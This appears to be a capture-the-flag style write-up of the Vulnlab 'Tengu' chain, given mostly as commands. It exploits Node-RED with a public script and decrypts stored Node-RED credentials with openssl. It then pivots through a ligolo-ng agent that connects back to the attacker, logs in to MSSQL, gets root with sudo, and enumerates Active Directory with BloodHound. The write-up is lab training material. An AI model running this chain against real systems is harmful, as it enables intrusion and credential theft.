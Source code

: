 
# NMAP

* Rust scan result
 
```console
Open 10.10.185.167:22
Open 10.10.185.167:1880
```

## Web

* Node-red web service can be exploited via [noderedsh.py](https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py)

![image](https://github.com/reneanto/write-ups/assets/44943249/5def2930-6800-4a94-a52e-0a938e3747ed)
```bash
python3 noderedsh.py http://$IP:1080 --user "" --password ""
```

![nodered-svc](/Vulnlabs/Chains/Images/tengu-nodered.png)

### nodered_svc

* further exploring the nodered_svc directory, we come across `flows_cred.json` 
* according to this [article](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/), we can get the `flows_cred.json` and the `.config.runtime.json` in to the folder `node_red_data` , then run the following script

```bash

#!/bin/bash
#
# Decrypt flows_cred.json from a NodeRED data directory
#
# Usage
# ./node-red-decrypt-flows-cred.sh ./node_red_data
#
jq  '.["$"]' -j $1/flows_cred.json | \
  cut -c 33- | \
  openssl enc -aes-256-ctr -d -base64 -A -iv `jq  -r '.["$"]' $1/flows_cred.json | cut -c 1-32` -K `jq -j '._credentialSecret' $1/.config.runtime.json | sha256sum | cut -c 1-64`
```

* upon running this we get the sql credentials that were found in the web application
## Pivoting

* navigate to /tmp on nodered as a good practice
* then use `ligolo-ng` to pivot

```bash
#on attacker machine
sudo ip tuntap add user rzgami mode tun ligolo
sudo ip link set ligolo up
./proxy --selfcert

#on nodered
./agent -connect $IP:11601 -ignore-cert

#on attacker machine
ligolo-ng>session
sudo ip route add 10.10.x.230/32 dev ligolo
sudo ip route add 10.10.x.229/32 dev ligolo
ligolo-ng>start
```

## MSSQL

* checking if the sqlsvc exists based on the credentials found in the machine node-red

```bash
nxc mssql 10.10.x.229-230 -U "nodered_connector" -P "" --local-auth
```

* logging in with impacket's `mssqclient`

```bash
impacket-mssqlclient tengu.vl\nodered_connector:pwd@$IP
```

* then enumerating the Database as

```bash
enum_db
select demo
select * from INFORMATION_SCHEMA.tables
select * from Users
```

![Tengu-Sql-Users](/Vulnlabs/Chains/Images/tengu-sql.png)

## Root on noderedsvc

* With the credentials from the sql database we can now login to the Linux machine Nodredsvc.

```bash
t2.m_winters@tengu.vl@nodredsvc.tengu.vl
sudo su
```

## Bloodhound

* With the same credentials we can extract information regarding the domain via `bloodhound`

```bash
bloodhound-python -u 't2.m_winters' -p 'pwd' -d 'tengu.vl' -dc 'dc.tengu.vk' -ns 10.10.x.229 -c all -zip
```

* Ingesting that data onto bloodhound and then using [bhqc](https://github.com/kaluche/bloodhound-quickwin) to get us brief overview over

```bash
python3 bhqc.py -u neo4j -p pwd -d TENGU.VL --heavy
```

![bhqc](/Vulnlabs/Chains/Images/tengu-bhqc.png)